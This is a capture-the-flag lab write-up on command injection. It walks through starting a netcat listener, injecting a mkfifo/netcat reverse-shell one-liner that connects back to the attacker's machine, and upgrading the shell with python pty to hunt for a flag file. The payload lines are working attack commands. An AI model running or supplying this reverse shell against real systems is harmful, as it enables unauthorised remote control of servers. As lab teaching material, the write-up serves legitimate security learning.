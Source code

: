 ## [Task 5] Get The Flag

By using netcat to listen to the OS command output, first we have to initiate a nc listener on the given port with local terminal :

```Bash
nc  -nlvp <unused_port_number> # eg. 1234
```

* For the command above :

    Option  | Description
    ---     | ---
    -n      | numeric-only IP addresses, no DNS
    -l      | Enable listen mode, for inbound connects
    -p port | Local port number to work on
    -v      | Enable verbose mode, that has responsive message as the output when certain works are done

* Make sure the port number applied isn't in used ([Reference](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/))

To establish a reverse shell on the web server,

```Bash
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc <your_local_ip> <port_number_preferred> >/tmp/f
```

* Command [mkfifo](https://linux.die.net/man/3/mkfifo) is used to create a FIFO special file with pathname, which it is similar to a pipe.
* _Any process can open it for reading or writing_, while it has to be ___open at both ends simultaneously___ before able to proceed to do any io operations on it.
* ```/bin/sh``` is usually implemented as a symbolic link pointing to the executable for whichever shell is the system shell. Option ```-i``` forces the shell to behave interactively
* [2>&1](https://www.brianstorti.com/understanding-shell-script-idiom-redirect/) is basically saying _redirect the_ ```stderr(2)``` _to the same place we are redirecting the_ ```stdout(&1)``` (confirmed to a certain destination file)
* The ```nc``` command here means that it _send the file /tmp/f to the host machine which has the nc listener executing on certain port_

The following inline python script allows you to have an interactive shell on listener :

```Python
python -c 'import pty; pty.spawn("/bin/bash")'
```

* ```pty``` is a [Pseudo-terminal utilities](https://docs.python.org/3/library/pty.html) in python
* spawn() function is used to spawn a process, and connect its controlling terminal with the current process's standard io
* Here it spawn the /bin/bash shell and thus we are able to launch our shell through bash

However, since there are no user to privesc (0 non-root user), thus we have to find the flag using command injection logic. The destination flag file can be in one of the major directories (ie. /root, /etc, /var and /usr)

